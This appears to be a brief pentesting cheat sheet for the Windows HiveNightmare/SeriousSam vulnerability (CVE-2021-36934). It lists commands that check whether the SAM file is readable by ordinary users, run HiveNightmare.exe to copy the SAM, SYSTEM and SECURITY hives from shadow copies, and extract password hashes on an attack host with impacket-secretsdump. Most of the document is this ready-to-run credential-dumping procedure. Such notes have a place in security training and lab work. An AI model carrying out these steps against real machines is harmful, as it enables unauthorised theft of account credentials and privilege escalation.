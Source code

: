 # CVE-2021-36934 HiveNightmare, aka SeriousSam
- exploits sam vulnerability (readable by any user)
- outputs registery hives
- requires the system to have  shadow copies (backups) `enabled by default`
- copy the hives to linux and run secretsdump

`check access on SAM`
```cmd-session
icacls c:\Windows\System32\config\SAM
 look for -> BUILTIN\Users:(I)(RX)
```

`run exploit`
```powershell-session
 .\HiveNightmare.exe
```

These copies can then be transferred back to the attack host, where impacket-secretsdump is used to extract the hashes:

```shell-session
$ impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local

```
![](Pasted%20image%2020250320205206.png)
